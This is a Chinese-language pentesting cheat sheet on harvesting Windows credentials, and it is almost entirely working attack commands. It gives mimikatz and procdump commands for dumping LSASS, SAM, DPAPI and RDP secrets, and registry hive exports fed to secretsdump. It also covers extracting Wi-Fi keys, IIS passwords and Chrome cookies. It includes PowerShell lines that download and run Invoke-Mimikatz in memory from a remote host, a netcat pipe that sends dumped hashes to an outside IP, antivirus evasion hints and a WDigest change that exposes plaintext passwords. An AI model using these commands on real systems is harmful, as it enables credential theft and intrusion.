 # 凭证信息收集

## 凭证获取工具

常用来获取 windows 密码的工具:
1、mimikatz
2、wce
3、pwddump7
4、ophcrack
5、procdump+mimikatz
6、LaZagne

密码 HASH
LM & NTLM

Windows 本地 hash:
https://www.secpulse.com/archives/65256.html

Vindows 系统下 hash 密码格式:
用户名称:RID:LM-HASH 值:NT-HASH 值

## Mimikatz

mimikatz For Win10T 载:

https://github.com/gentilkiwi/mimikatz/releases

### 常用命令
[PTH攻击](17_domain_%E5%9F%9F.md#mimikatz-pth-%E4%BC%A0%E9%80%92%E6%94%BB%E5%87%BB)

```sh
mimikatz.exe "log logon.txt" "privilege::debug" "sekurlsa::logonpasswords" "exit"
mimikatz.exe "log logon.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```

**1x 版本:**

```sh
privilege::debug       //提升权限
inject::process lsass.exe sekurlsa.dl   //注入sekurlsa.dl到lsass.exe进程里
@getLogonPasswords     //获取密码
```

**Powershell 远程加载 mimikatz 脚本**

```ts
// IEX是加载到内存中执行的。
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.130/1');Invoke-Mimikatz -DumpCreds
powershell "IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.130/1');Invoke-Mimikatz -DumpCreds"
```

杀软绕过: 1.大写小写。 2.用+号 拼凑。。
[Mimikatz 的 18 种免杀姿势及防御策略](https://www.freebuf.com/articles/system/234365.html)

```ts
v2.0 https://github.com/PowerShellMafia/PowerSploit/raw/master/Exfiltration/Invoke-Mimikatz.ps1
v2.2 https://raw.githubusercontent.com/Mr-xn/Penetration_Testing_POC/master/tools/Invoke-Mimikatz.ps1
```

输出重定向

```sh
攻击机: nc -lvvp 6666 > pass123.txt
靶机  : mimikatz.exe "log res.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit" | nc.exe -v 47.101.214.85 6666
```

powershell IEX (New-Object Net.WebClient).DownloadString('https://127.0.0.1/f');Get-PassHashes // 不好使

### 获取远程登录凭据

[内网渗透 | 获取远程主机保存的 RDP 凭据密码](https://mp.weixin.qq.com/s/F4AjedMpzObUm7NH3484lw)

```bash
# 1.cmdkey /list务必在Session会话下执行 或 poiwerpick
cmdkey /list
# 2.导出凭据
mimikatz.exe "log log_dpapi.txt" "privilege::debug" "sekurlsa::dpapi" "exit"
# 3.导出SESSION信息
mimikatz.exe "log 54461880A4E364919FB23518091F65E1.txt" "privilege::debug" "dpapi::cred /in:%userprofile%\AppData\Local\Microsoft\Credentials\54461880A4E364919FB23518091F65E1" "exit"
# 4.在log_dpapi.txt找到 54461880A4E364919FB23518091F65E1.txt中的guidMasterKey的值下面的masterKey, 读取明文
mimikatz "log plain1.txt" "dpapi::cred /in:%cred%\54461880A4E364919FB23518091F65E1 /masterkey:0ea407f34e8dbea06a9ce6ee42c61579bdfea6dd3e93d5b9aa36561c223922fe67a2bf18e5350e139bc977d88574cd1b4762c1183647b80e817c0327314cd29a" "exit"
```

### windows server 2012 及以上的系统明文

通过添加注册表，再通过例如锁屏、注销或重启等操作，让管理员重新登录及可以读取明文。

```sh
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

### FAQ 不能执行 powershell 远程命令

```ps
set-ExecutionPolicy RemoteSigned
或 Set-ExecutionPolicy -Scope CurrentUser
get-ExecutionPolicy
```

## 导出密码的几种方式

https://www.daimajiaoliu.com/daima/486f56b9d900403

procdump 导出

```ts
procdump64.exe -accepteula -ma lsass.dmp
mimikatz
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full
```

## wce 获取明文密码 win7 及以下

wce -w

## pwddump7 获取 hash

Pwddump7.exe > pass.txt
https://www.objectif-securite.ch/ophcrack

如果网站无法破解出 hash 值·我们可以使用 ophcrack 工具配合彩虹表自己破解.
工具下载:https://ophcrack.sourceforge.io/
彩虹表:
https://ophcrack.sourceforge.io/tables.php
http://project-rainbowcrack.com/table.htm

## Procdump+Mimikatz

Procdump lsass 进程导出:
For 32bits: procdump.exe -accepteula -ma lsass.exe lsass.dmp
For 64bits: procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp
然后使用 mimikatz 还原密码:
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit"

## 注册表导出 hash

```sh
reg save HKLM\SYSTEM system.hiv
reg save HKLM\SAM sam.hiv
reg save HKLM\SECURITY security.hiv
导出后可以使用 cain 导人 system.hiv.security.hiv 获取统存中的明文信息.
mimikatz "lsadump sam /system:system.hiv /sam:sam.hiv" exit
```

python3 -m pip install impacket
windows: python secretsdump.py -sam sam.hiv -security security.hiv-system system.hiv LOCAL
linux: impacket -secretsdump -system system.hiv -ntds ntds.dit LOCAL

## sharpdump

## Windows Wifi 密码的获取

netsh wlan show profile
netsh wlan show profile name="ssid" key=clear

## 看 hosts

C:\Windows\System32\drivers\etc\hosts

## Windows IIS config

lIS6:
cscript.exe C:\Inetpub\AdminScripts\adsutil.vbs ENUM W3SVC/1/root

IIS7,8:
列出网站列表:%systemroot%/system32/inetsrv/appcmd.exe list site
列出网站物理路:%systemroot%\system32\inetsr\appcmd.exe list vdir
Mimikatz 读取 lIS7 配置文件密码:
mimikatz.exe privilege:debug log "iis:apphost /in:"%systemroot%\system32\inetsr\config\applicationHost.config" /live" exit

## windows 回收站信息获取

FOR /f "skip=1 tokens=1,2 delims=" %c in ('wmic useraccount get name^,sid') do dir /a/b C:\$Recycle.Bin\%d\ ^>%c.txt

## Chrpme 的密码和 cookie 获取

%localappdata%\Google\chrome\USERDA~1\default\LOGIND~ 1
%localappdata%\Google\chrome\USERDA~1\default\cookies

chrome 的用户信息·保存在本地文件为 sqlite 数据库格式

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\cookies /unprotect" exit

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\LOGIND~1" exit # 读 chrome 密码

## **lazagne** 综合获取信息
